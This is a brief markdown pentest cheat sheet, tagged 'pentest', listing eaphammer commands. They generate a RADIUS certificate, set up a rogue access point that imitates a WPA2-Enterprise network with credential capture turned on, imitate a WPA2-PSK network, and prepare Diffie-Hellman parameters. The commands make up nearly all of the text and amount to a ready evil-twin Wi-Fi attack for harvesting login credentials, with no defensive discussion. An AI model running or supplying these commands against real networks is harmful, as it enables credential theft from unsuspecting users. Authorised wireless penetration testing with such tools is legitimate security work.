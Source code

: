 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Generating certificate for Radius 

~~~bash
eaphammer --cert-wizard
~~~

Emulating WPA2 Radius

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --creds --wpa-version=2
~~~

Emulating WPA2 PSK

~~~bash
eaphammer --interface wlan0 --essid="SSID" --channel=XX --wpa-passphrase="passphrase_to_use" --wpa-version=2
~~~

~~~bash
cd /etc/eaphammer/certs && sudo openssl dhparam -out dh 2048
~~~

~~~bash

~~~
